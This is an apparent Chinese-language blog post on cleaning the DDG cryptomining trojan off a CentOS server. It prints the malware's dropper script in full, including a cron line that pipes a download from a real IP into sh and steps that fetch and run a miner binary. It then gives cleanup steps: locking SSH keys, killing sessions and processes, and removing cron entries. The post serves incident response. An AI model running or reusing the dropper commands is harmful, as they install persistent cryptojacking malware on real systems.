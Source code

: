 ```yaml
---
layout: post
title: Linux 清理挖矿木马DDG
categories: linux,bit,trojan
description: Linux 清理挖矿木马DDG
keywords: linux,bit,trojan
---
```


> DDG挖矿病毒是一款在Linux系统下运行的恶意挖矿病毒，该病毒从去年一直活跃在现在，已经挖取了价值一千多万人民币的虚拟币货币，此病毒样本在一年左右的时间，已开发出了多个变种样本，此次发现的为DDG.3012/DDG3013挖矿版本。

# 环境说明

- 系统： Centos 7.2 x86_64
- DDG脚本：curl -fsSL http://13.113.240.221:8000/i.sh

# 一、DDG 木马脚本内容

```bash
# crontab(root)
$ crontab -l
*/15 * * * * curl -fsSL http://13.113.240.221:8000/i.sh | sh

$ curl -fsSL http://13.113.240.221:8000/i.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://13.113.240.221:8000/i.sh | sh" >> /var/spool/cron/root


mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://13.113.240.221:8000/i.sh | sh" >> /var/spool/cron/crontabs/root


ps auxf | grep -v grep | grep /tmp/ddgs.3014 || rm -rf /tmp/ddgs.3014
if [ ! -f "/tmp/ddgs.3014" ]; then

    curl -fsSL http://13.113.240.221:8000/static/3014/ddgs.$(uname -m) -o /tmp/ddgs.3014
fi
chmod +x /tmp/ddgs.3014 && /tmp/ddgs.3014

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

# 二、 清除方案

## 1. 清理不明主机名ssh免登陆密钥

```bash
[root@VM_152_184_centos /]# > /root/.ssh/autherized_keys

#使用chattr锁定密钥文件,防止被恶意写入
[root@VM_152_184_centos /]# chattr +i  /root/.ssh/authorized_keys
```

## 2. Linux用root强制踢掉已登录不明用户

```bash
# 首先使用w命令查看所有在线用户：
[root@VM_152_184_centos /]# w
 20:50:14 up 9 days,  5:58,  3 users,  load average: 0.21, 0.05, 0.02
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    101.45.224.253   20:48    0.00s  0.00s  0.00s w
root     pts/1    101.45.224.253   20:49   17.00s  0.00s  0.00s -bash
hmj      pts/2    101.45.224.253   20:50    2.00s  0.00s  0.00s -bash

# 执行命令：pkill -kill -t TTY值  例：踢掉已登录用户hmj
[root@VM_152_184_centos /]# pkill -kill -t pts/2

# 再用w命令查看是否已经强制踢掉：
[root@VM_152_184_centos /]# w
 20:55:10 up 9 days,  6:03,  2 users,  load average: 0.03, 0.03, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    101.45.224.253   20:48    0.00s  0.00s  0.00s w
root     pts/1    101.45.224.253   20:49    5:13   0.00s  0.00s -bash
```

## 3. 查找相应的挖矿程序

然后删除相应的恶意程序，在临时目录下

/tmp/qW3xT.2、/tmp/ddgs.3013、/tmp/ddgs.3012、/tmp/wnTKYg、/tmp/2t3ik等文件

## 4.结束掉挖矿和DDG母体相关进程

```bash
[root@VM_152_184_centos /]# ps -ef | grep -v grep | egrep 'wnTKYg|2t3ik|qW3xT.2|ddg|qW3xT' | awk '{print $2}' | xargs kill -9
```

## 5.清除到定时任务，相应的定时任务文件

```bash
/var/spool/cron/root
/var/spool/cron/crontabs/root
```

> 参考链接：<https://www.freebuf.com/articles/system/180385.html>